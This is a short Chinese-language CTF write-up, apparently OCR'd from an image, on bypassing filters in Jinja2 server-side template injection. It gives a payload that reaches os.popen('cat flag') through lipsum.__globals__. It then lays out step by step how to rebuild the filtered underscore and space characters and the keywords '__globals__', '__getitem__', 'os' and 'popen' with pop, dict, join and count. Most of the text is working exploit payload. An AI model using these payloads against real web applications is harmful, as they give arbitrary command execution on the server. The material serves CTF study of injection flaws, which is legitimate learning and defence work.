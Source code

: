 ```
{%set a=lipsum|string|list|attr(‘__getitem__’)(18)%}{{a}}
```

又由于下划线被过滤，可以用'pop’代替 getitem

```
{%set a=(lipsum|string|list)|attr(‘pop’)(18)%}{{a}}
```

这个payload是绕过过滤得到的下划线‘_’

Payload原型

```
{{lipsum|attr("__globals__")|attr(“__getitem__”)("os")|attr("popen")("cat flag")|attr("read")()}}
```


绕过：

```
{%set nine=dict(aaaaaaaaa=a)|join|count%}

{%set eighteen=nine+nine%}

{%set pop=dict(pop=a)|join%}

{%set xhx=(lipsum|string|list)|attr(pop)(eighteen)%} #（获取下划线）

{%set kg=(lipsum|string|list)|attr(pop)(nine)%}  #（获取空格）

{%set globals=(xhx,xhx,dict(globals=a)|join,xhx,xhx)|join%}

{%set getitem=(xhx,xhx,dict(getitem=a)|join,xhx,xhx)|join%}

{%set os=dict(os=a)|join%}

{%set popen=dict(popen=a)|join%}

{%set flag=(dict(cat=a)|join,kg,dict(flag=a)|join)|join%}

{{flag}}
```